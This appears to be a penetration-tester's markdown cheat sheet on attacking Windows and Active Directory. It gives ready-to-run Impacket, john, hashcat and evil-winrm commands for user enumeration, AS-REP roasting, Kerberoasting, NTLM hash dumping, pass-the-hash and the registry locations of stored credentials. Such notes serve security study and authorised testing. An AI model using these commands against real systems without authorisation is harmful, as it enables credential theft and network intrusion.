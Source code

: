 ```yaml
---
layout: default
title: Windows Exploitation
has_children: false
nav_order: 5
---
```

# Windows Exploitation
{:toc}

<hr />

## Impacket Toolkit
### Impacket LookupSID
- If SMB null sessions are allowed use Impacket to discover users through SID (Security Identifier) lookups
> SID enumerates both local machine and domain users
``` lookupsid.py anonymous@$IP ```
- SID enumeration with user credentials
```lookupsid.py domain/user:PasswordOrHash@10.10.50.150```

### Impacklet - GetNPUsers
Attempt to get a list of TGTs for users that have the specific property "Do not require Kerberos preauthentication" set (<b>UF_DONT_REQUIRE_PREAUTH</b>)
- If anything is discovered a John output will be generated for cracking
{: .important }
> Must have the domain added to your hosts file
``` impacket-GetNPUsers domainname/ -no-pass -usersfile users ```
> Once a TGT is obtain we crach the hash with john:
> ```john hash --wordlist=/usr/share/wordlists/rockyou.txt```
- Now repeat further enumartion with any usernames and passwords for services requiring authentication (and recheck any SMB shares)

Request a TGS Ticket (after SPN discovery - Impacket-GetUserSPNs, below)
```impacket-GetUserSPNs -dc-ip 10.10.220.126 domain.local/username -request-user spn-name```
- From this we will receive the TGS hash starting in '$krb5tgs$23$'
- Crack this TGS hash with Hashcat - specifically -m13100
```hashcat -a 0 -m 13100 tgs-hash /usr/share/wordlists/rockyou.txt```
- This will provide us with machine credentials and the ability to use evil-winrm (below)


### Impacket - GetUserSPNs
- Used to rab a password hash for user accounts that have an SPN (Service Principal name). If an SPN is set, it is possible to request a service ticket for the account.
- Impacket-GetUserSPNs can also be used for Kerberoasting without preauthentication
```impacket-GetUserSPNs -dc-ip $IP Domain-name.local/username```
> With a SPN (Service Principal Name) in hand, request a TGS Ticket with Impacket-GetUserSPNs

### Impacket - Secretsdump
- Retrieve the NTLM hashes from a machine
```secretsdump.py -just-dc domain.local/username:PasswordOrHash@10.10.161.33```

### Impacket - Psexec
- Use a Pass the Hash attack to gain elevated access to the system (i.e. we have a domain admin NTLM hash and pass it)
```psexec.py domain.local/administrator@10.10.150.150 -hashes aad3b435b51404eeaad3b435b51404ee:3d8asd8740dlf11238fbb21c72110a21```


## Windows Remote Management
### Evil-WinRM
- For Windows Remote Management functionality
{: .important }
> Credentials are required for Evil-WinRM (and the user have permissions)
```evil-winrm -u 'username' -i $IP```
- Evil-WinRM accepts a user hash by using the -H flag
```evil-winrm -u 'Administrator' -i $IP -H 'c2597747aa5e43022a3a3049a3c3b09d'```

## Kerberoasting 
- See above (Impacket-GetUserSPNs)


# Registry Locations and Files
- Machine Boot Key: HKLM\System
- SAM file: HKLM\SAM
- LSA Secrets: HKLM\Security\Policy\Secrets
> LSA secrets are encrypted based on the system bootkey
- Number of Cached Domain Logons: HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\Current Version\Winlogon\ 
- Actual Cached Credentials located at: HKLM\Security\Cache however these are blank in regedit - only the SYSTEM account can view them (you need a local admin account for SecretsDump)
> To view these manually try ```psexec-exe -i -s regedit.exe``` and ensure you are the SYSTEM user


#### [NOTES]
<ul>
<li> An LM Hash of 'aad3b435b51404eeaad3b435b51404ee' means the hash is null/blank (not in use)</li>
<li> NTLM:</li>
	<ul>
	<li> NT hashes are case sensitive </li>
	<li> Attacks include: Pass the Hash</li>
	``` secretsdump.py DOMAIN/USER@10.10.150.100 -hashes HASH```
	<li> NTLM hashes may be able to be utilised with Mimikatz or xfreerdp to RDP into systems that have restricted admin mode enabled</li>
	</ul>
</ul>

##### [REFERENCES]
- <a href="https://www.hackingarticles.in/impacket-guide-smb-msrpc/">Impacket Guide SMB MSRPC</a>
